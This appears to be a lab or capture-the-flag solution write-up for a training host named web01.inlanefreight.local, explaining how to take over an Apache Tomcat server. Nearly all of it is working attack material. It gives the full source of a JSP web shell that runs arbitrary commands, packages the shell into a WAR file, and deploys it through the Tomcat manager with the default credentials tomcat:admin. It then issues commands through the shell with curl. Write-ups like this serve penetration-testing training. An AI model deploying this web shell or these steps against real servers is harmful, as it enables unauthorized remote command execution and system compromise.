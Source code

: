 **Solution Methodology:**

#### Step 1: JSP Web Shell Creation
```bash
# Create malicious JSP web shell
cat > cmd.jsp << 'EOF'
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr); 
        disr = dis.readLine(); 
    }
}
%>
EOF
```

#### Step 2: WAR File Package and Deployment
```bash
# Package JSP shell into WAR archive
zip -r backup.war cmd.jsp

# Verify WAR contents
unzip -l backup.war
# Expected: cmd.jsp listed in archive

# Deploy via manager interface:
# 1. Navigate to http://web01.inlanefreight.local:8180/manager/html
# 2. Login with tomcat:admin
# 3. Scroll to "Deploy" section
# 4. Browse and select backup.war
# 5. Click "Deploy" button
# 6. Verify /backup application appears in application list
```

#### Step 3: Web Shell Access and Command Execution
```bash
# Access deployed web shell
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id"

# Expected output:
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

# Verify system access and permissions
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=whoami"
# Expected: tomcat

# Check current working directory
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=pwd"
# Expected: Tomcat installation directory
```
